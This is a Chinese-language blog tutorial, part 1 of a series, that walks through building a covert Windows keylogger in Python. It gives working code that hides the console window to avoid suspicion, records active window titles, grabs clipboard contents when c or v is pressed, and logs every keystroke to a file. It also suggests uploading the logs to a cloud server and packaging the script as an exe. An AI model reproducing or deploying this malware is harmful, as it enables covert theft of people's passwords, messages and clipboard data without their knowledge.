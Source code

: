 ```yaml
---
title: 建立键盘记录器
description: 使用python编写键盘记录器part1.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


如想有更好的了解请查看[原文](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

## 一、导入标准库，隐藏控制台窗口

导入提供所需功能的Windows DLL。所需kernel32.dll与user32.dll，为避免怀疑隐藏控制台窗口。
	
```python
import ctypes    #提供C兼容的数据类型
import logging   #用于记录键盘记录

kernel32  = ctypes.windll.kernel32    #调用kernel32.dll
user32 = ctypes.windll.user32         #调用user32.dll

user32.ShowWindow(kernel32.GetConsoleWindow(),0)    #隐藏窗口
```

## 二、get_current_window()

获取当前窗口标题，以便知道记录的是用户使用的哪个程序。
	
```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值
```

## 三、get_clipboard()

捕获剪贴板内容。tips：使用PyWin32可以用更少的代码完成些操作

```python
def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```

## 四、get_keystrokes()

监听并记录敲击字符并记录。函数调用时需传入两个参数，日志文件存储目录和文件名。
按键记录使用while死循环，原因不希望键盘记录停止。但如果我们要同时执行其他任务，则需要使用多线程或单独的进程中与其他函数一并运行它。

```python
def get_keystrokes(log_dir,log_name):    #监听与记录敲击键盘内容
    #记录
    logging.basicConfig(filename=(log_dir + '\\' + log_name),level=logging.DEBUG,format='%(message)s')

    GetAsyncKeyState = user32.GetAsyncKeyState    #WinAPI函数，确定按键是向上还是向下
    special_keys = {
        0x08: 'BS',
        0x09: 'Tap',
        0x10: 'Shift',
        0x11: 'Ctrl',
        0x12: 'Alt',
        0x14: 'CapsLock',
        0x1b: 'Esc',
        0x20: 'Space',
        0x2e: 'Del',
    }
    current_window = None
    line = []    #存储点击的字符

    while True:
        if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
            current_window = get_current_window()    #将窗口标题放在current_window中
            logging.info(str(current_window))    #将当前窗口标题写入日志文件

        for i in range(1,256):    #256个ASCII字符
            if GetAsyncKeyState(i) & 1:    #如果点击某个键并匹配ASCII字符
                if i in special_keys:    #如果是特殊键，这样记录
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d:    #如果键入<ENTER>，则记录然后清除行变量
                    logging.info(line)
                    line.clear()
                elif i ==0x63 or i == 0x43 or i == 0x56 or i ==0x76:    #如果点击字符'c'或'v'，则获取剪贴板数据
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a:    #如果是字母数字字符，则追加到line
                    line.append(chr(i))
```

后续可自加代码，如定时将记录文件上传到云服务器 :grin: 

将py文件用pyinstaller打包成exe并运行，因为使用while True死循环，cpu占用较高，这点将在part2解决。

![part1_1](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_1.png)

![part1_2](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_2.png)

![part1_3](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_3.png)

源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/part1/keylogger.py)